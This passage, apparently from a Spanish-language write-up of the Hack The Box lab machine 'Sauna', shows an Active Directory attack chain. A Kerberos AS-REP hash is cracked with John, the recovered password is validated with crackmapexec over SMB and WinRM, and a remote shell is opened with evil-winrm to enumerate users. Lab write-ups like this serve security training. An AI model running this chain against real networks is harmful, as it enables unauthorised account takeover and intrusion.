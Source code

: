 ```bash
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
.
-
```

Vemos que obtenemos un `HASH` que podemos proceder a Crackear conm la herramienta John

```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"Thestrokes23"     ($krb5asrep$23$"fsmith"@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:04 DONE (2022-01-04 15:51) 0.2232g/s 2352Kp/s 2352Kc/s 2352KC/s Tiffani143..Thehulk2008
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Obtenemos Credenciales
```bash
fsmith: Thestrokes23
```

Procedemos a Validar con Crackmapexec el usuario y la password tanto para SMB como para WINRM
```bash
# crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23                   
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23

# crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23
WINRM       10.10.10.175    5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
WINRM       10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```
Procedemos a conectarnos como el usuario fsmith con la Herramienta Evil-winrm

```bash
# evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'                   

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami 
egotisticalbank\fsmith
```
Procedemos a enumerar Usuarios a nivel Local en la Maquina y los guardamos en un archivo.
```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
```
